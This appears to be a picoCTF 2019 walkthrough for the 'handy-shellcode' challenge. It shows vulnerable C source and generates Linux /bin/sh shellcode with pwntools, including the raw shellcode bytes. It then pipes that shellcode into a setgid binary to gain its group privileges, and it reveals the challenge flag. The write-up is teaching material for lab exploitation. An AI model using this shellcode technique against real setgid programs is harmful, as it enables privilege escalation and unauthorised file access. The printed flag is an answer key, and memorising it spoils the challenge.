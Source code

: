 # handy-shellcode
50 points

### Description
*"This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source."*

### Solution
Here's a look at the source code provided:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

This one is actually pretty simple in execution, but we'll need to introduce a few new concepts to understand everything that is going on. We see that the program prompts the user for input, then creates a function pointer for that input and tries to execute it. If we give the program input that isn't executable, the program will run into a segmentation fault.

If we take a look at the directory that this program is in on the server, we see the flag file, but we don't have permission to read it.
```
$ cd /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb
$ ls
flag.txt  vuln  vuln.c
$ cat flag.txt 
cat: flag.txt: Permission denied
```
However, if we take a look at the permissions for the files in this directory, we can see that `flag.txt` is in the same permissions group as `vuln`. 
```
$ ls -l
total 656
-r--r----- 1 hacksports handy-shellcode_6     39 Sep 28  2019 flag.txt
-rwxr-sr-x 1 hacksports handy-shellcode_6 661832 Sep 28  2019 vuln
-rw-rw-r-- 1 hacksports hacksports           624 Sep 28  2019 vuln.c
```

If you aren't familiar with how file permissions work in UNIX filesystems, you can learn more about it [here](https://www.tutorialspoint.com/unix/unix-file-permission.htm).

So, we should take a hint from the problem. It asks if we can spawn a shell through the program to read `flag.txt`. Well, this is exactly what we are going to do.

First, we need to talk about **shellcode**. If you aren't familiar with the concept, a piece of shellcode is typically a malicious portion of code that a hacker wants to use as the [payload](https://en.wikipedia.org/wiki/Payload_(computing)) in exploiting a vulnerability.

In simple terms, when a C program is compiled, it is translated into binary machine code that the computer can actually understand. However, there is an intermediary step where the C source code is translated by the compiler into [assembly code](https://en.wikipedia.org/wiki/Assembly_language), which is then translated by an *assembler* into executable machine code.

We can actually write assembly ourselves that can be translated into hexadecimal, which will make it a valid, executable piece of code. This is the process by which shellcode is usually created. You can find a great introduction to shellcode [here](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf) if you want to learn more about it.

As hackers, this problem makes our job **very** easy. Usually, we have to find creative ways to execute our payloads, but this program will do it for us! All we have to do is find the right shellcode.

There are a lot of great shellcode databases online, but I think the best is [shell-storm](http://shell-storm.org/shellcode/).

However, if you've checked out any of my other picoCTF walkthroughs, you may have learned that I like to do stuff with python when I can. For this problem, we're going to use one of the most useful python modules available to hackers: [pwntools](http://docs.pwntools.com/en/stable/).

The `pwn.shellcraft` module has a lot of useful code for generating shellcode, and it can be used to generate shellcode for many different operating systems and architectures.
```python
from pwn import shellcraft

print(shellcraft.linux.sh())
```

The code above will print out the actual *assembly* instructions for generating a shell on a linux operating system. Remember, we don't want assembly code, but rather *shellcode*.

We can use `pwn.asm` to convert assembly instructions to machine code:
```python
from pwn import shellcraft, asm

print(asm(shellcraft.linux.sh()))
```

Here's something like what you should've gotten.
<details>
  <summary>Shellcode:</summary>
  b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
</details>

If your output had a lot of random characters that don't look like this, don't worry, that just means python is printing out the actual bytes rather than the hex values. This is just dependent on your Python version. 

Speaking of Python version, you'll actually want to use Python2 for this because we want the actual bytes to be printed out and not the hex values. The reason the output is different between versions is because of a difference in how byte strings are handled and encoded in Python2 vs Python3. Just know that Python2 is typically preferred when trying to generate shellcode like this.

Using Python2 (which you may have been using before), your shellcode should look like this:
```
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
```

We now want this shellcode to be fed in as the input to `vuln`. If we are in the directory with `vuln` and `flag.txt` on the server, we can execute the python code above in one command using the python `-c` flag. We can then pipe this into `vuln`.
```
$ python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))" | ./vuln
```

However, you'll notice that instead of actually being able to use the shell that spawns, you're immediately brought back to your normal command-line prompt. This is a common issue we run into in situations like this. What's happening is that python gives the input to `vuln`, then python stops executing. This is bad because all of the input to `vuln` is coming from whatever is before the pipe. So, when python stops executing, `vuln` stops trying to get input, even if the shell is spawned.

This is easy to fix. We just need to append another command that executes *after* the python command, but prompts the user for input. This will give us an input stream to be able to interact will the shell that we spawned.

The best command for this is `cat`, since when it is used with no arguments, it just waits for user input and then repeats it as output. In this situation, `cat` will keep waiting for user input even *after* the pipe, and instead of echoing back to the terminal like `cat` normally does, the echoed output is rerouted as the input of `./vuln` because of the pipe.
```
$ (python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln
```

While you can't see the prompt, we are now in the shell that we spawned. We can use `id` to see that we now have the same group permissions as `flag.txt`. So, we can finally read it.
```
$ (python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
id
uid=49513(flow2) gid=8875(handy-shellcode_6) groups=8875(handy-shellcode_6),1002(competitors),49514(flow2)
ls
flag.txt  vuln	vuln.c
cat flag.txt
```
**NOTE:** This won't work if you use Python3 because Python will pass `vuln` the hex values of the shellcode rather than the actual bytes. Make sure you run this using Python2.

And this should get you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
